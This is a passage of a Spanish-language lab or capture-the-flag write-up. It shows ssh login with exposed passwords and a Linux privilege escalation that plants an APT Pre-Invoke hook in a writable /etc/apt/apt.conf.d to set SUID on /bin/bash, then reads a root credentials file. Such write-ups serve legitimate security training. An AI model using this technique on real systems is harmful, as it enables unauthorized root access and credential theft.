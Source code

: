 Con un escaneo de nmap identifico que el puerto 22 está abierto en el host `10.13.13.3`. Y utilizo las credenciales encontradas anteriormente para conectarme mediante ssh.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ sudo nmap -p22 10.13.13.3
PORT   STATE SERVICE
22/tcp open  ssh

/home/kali/Documents/thl/thlcppt_v16:-$ ssh jerry@10.13.13.3
jerry@10.13.13.3's password: GPAZHGNvMjDdOh9969A0YAE6

jerry@jerry_laptop:~$ id
uid=1000(jerry) gid=1000(jerry) groups=1000(jerry),1001(sistema)
```

---
### Privilege Escalation

```terminal
jerry@jerry_laptop:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
jerry:x:1000:1000::/home/jerry:/bin/bash
```

El usuario `jerry` pertenece al grupo `sistema` y tiene capacidad de escritura en el directorio `/etc/apt/apt.conf.d`. 

```terminal
jerry@jerry_laptop:~$ find / -group 1001 2>/dev/null
/etc/apt/apt.conf.d
/etc/apt/apt.conf.d/70debconf
/etc/apt/apt.conf.d/docker-autoremove-suggests
/etc/apt/apt.conf.d/01autoremove
/etc/apt/apt.conf.d/docker-gzip-indexes
/etc/apt/apt.conf.d/docker-clean
/etc/apt/apt.conf.d/docker-no-languages
```

Utilizando la técnica documentada en [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/), modifico el comportamiento de apt para ejecutar un comando con privilegios elevados. Esto me permite, obtener una shell SUID.

```terminal
jerry@jerry_laptop:/etc/apt/apt.conf.d$ echo 'APT::Update::Pre-Invoke:: {"chmod u+s /bin/bash";};' > 01a

jerry@jerry_laptop:/etc/apt/apt.conf.d$ bash -p
bash-5.2# id
uid=1000(jerry) gid=1000(jerry) euid=0(root) groups=1000(jerry),1001(sistema)

bash-5.2# cat /root/homeCreds.txt
jerry:smO4IquxSH1fMt5pnQ4lBaEH
```

Después de haber escalado privilegios, leo el archivo `/root/homeCreds.txt` que contiene credenciales para conectarme vía ssh al usuario `jerry@thlcpptv16.thl`.
